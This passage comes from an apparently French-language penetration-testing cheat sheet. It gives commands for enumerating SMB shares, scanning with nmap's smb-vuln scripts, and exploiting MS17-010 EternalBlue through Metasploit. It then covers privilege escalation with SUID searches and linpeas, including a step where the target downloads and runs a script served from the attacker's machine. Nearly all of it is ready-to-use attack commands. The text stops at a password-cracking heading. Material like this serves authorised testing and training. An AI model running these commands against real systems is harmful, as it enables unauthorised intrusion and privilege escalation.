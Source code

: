 ### Accès aux partages SMB

```bash
smbclient //<IP>/<partage> -U <utilisateur>
```

### Recherche de vulnérabilités SMB

```bash
sudo nmap --script smb-vuln* -p 139,445 <IP>
```

### Exploitation avec Metasploit

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <IP>
exploit
```

## 3. Escalade de privilèges

### Recherche de fichiers avec le bit SUID

```bash
find / -type f -perm -4000 2>/dev/null
```

### Utilisation de `linpeas`

#### Téléchargement et exécution

```
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240915-f58aa30b/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

#### Exécution depuis une machine distante

Sur la machine attaquante :

```bash
python3 -m http.server 8000
```

Sur la machine cible :

```bash
cd /tmp
wget http://<IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## 4. Cracking de mots de passe
